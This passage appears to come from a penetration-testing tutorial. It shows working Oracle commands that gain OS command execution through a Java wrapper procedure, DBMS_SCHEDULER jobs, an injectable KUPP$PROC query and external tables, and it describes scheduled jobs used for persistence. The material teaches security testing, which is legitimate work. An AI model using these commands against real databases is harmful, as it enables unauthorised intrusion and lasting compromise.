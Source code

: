 Next, write a PL/SQL wrapper for this class:
1
	create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /

That’s it. Now, to execute a command, all you need is just to send the following query:
1
	exec javacmd('command');

Note that when using the above procedure, we cannot see the results of executed command, however, you can redirect the output to a file and read it. You can find the full code of the shell that allows to read and write files:
raptor_oraexec.sql
However, there is a more sophisticated script that handles the command output, but it has a larger size here.
RCE: Scheduler
The next method, which will help us if there is no Java virtual machine, is to use ‘dbmsscheduler’, the built-in task scheduler of Oracle. To use it, you must have the privilege CREATE EXTERNAL JOB. Here’s a code sample that implements the entry of ‘0wned’ string into a text file in the root of the C: drive:
1
2
	exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);

This will create and run a job for executing your command. And here’s an option for calling the Scheduler from another procedure – SYS.KUPP$PROC.CREATE_MASTER_PROCESS, which is of interest to us, primarily, because it allows you to embed multi-statement queries, that is, those consisting of multiple sub-queries. Theoretically, you can run such query even in case of injection into a web application.
1
	select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual

Note that, when you use the Scheduler, you can run this job more than once and do it with some frequency. As a result, this will help you get a foothold in the tested system, because, even if the administrator deletes the user from OS, this job, which is regularly running in the system, will bring him or her back to life.
RCE: External Tables
As the last method for achieving the execution of OS commands, I would like to mention the use of External Tables. This method will help you later download files from the server. You will need the following privileges:
1
2
3
	UTL_FILE;
CREATE TABLE;
a directory reserved for the user.
